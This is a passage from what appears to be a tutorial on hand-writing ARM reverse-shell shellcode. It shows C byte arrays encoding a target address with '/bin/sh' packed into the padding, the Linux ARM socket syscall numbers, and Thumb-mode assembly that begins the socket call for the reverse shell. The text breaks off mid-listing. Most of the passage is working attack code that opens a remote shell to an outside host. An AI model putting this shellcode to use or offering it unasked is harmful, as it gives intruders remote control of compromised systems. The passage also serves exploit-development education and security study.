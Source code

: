 ```

```

Or this

```
unsigned char sa[16] = {
    0x02, 0x00, 0x11, 0x5c, 0xc0, 0xa8, 0x0a, 0x0c,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff };


```

or even something semi-random like this

```
unsigned char sa[16] = {
    0x02, 0x00, 0x11, 0x5c, 0xc0, 0xa8, 0x0a, 0x0c,
    '/', 'b', 'i', 'n', '/', 's', 'h', 'A' };


```

and the program still works.

This last hack is not necessary, but will save 8 bytes in the resulting shellcode.

The syscall numbers for the socket functions are bigger then those used in the previous examples.

```
#define __NR_socket (__NR_SYSCALL_BASE + 281)
#define __NR_bind (__NR_SYSCALL_BASE + 282)
#define __NR_connect (__NR_SYSCALL_BASE + 283)
#define __NR_listen (__NR_SYSCALL_BASE + 284)
#define __NR_accept (__NR_SYSCALL_BASE + 285)


```

The arm instruction set has [limitations on immediate constants](http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.dui0473e/Chdfgchf.html) that can be used with a **mov** instruction. Values 0-255 are not a problem and can be handled directly.

For the syscall numbers needed for these examples, two instructions can be used

So here is an assembly version of the same **reverse-shell** C code

```
.text
.global _start

_start:
    add r1, pc, #1
    bx r1

.code 16
    adr r0, _sa
    eor r2, r2, r2
    @ replace the 0xff in the first word with 0x00
    strb r2, [r0, #1]
    @ null terminate the /bin/sh string
    strb r2, [r0, #15]

    @ syscall #281 socket(AF_INET, SOCK_STREAM, 0)
    mov r0, #2
    mov r1, #1
    @ r2 is already zero
    mov r7, #200
    add r7, #81
    svc #1
```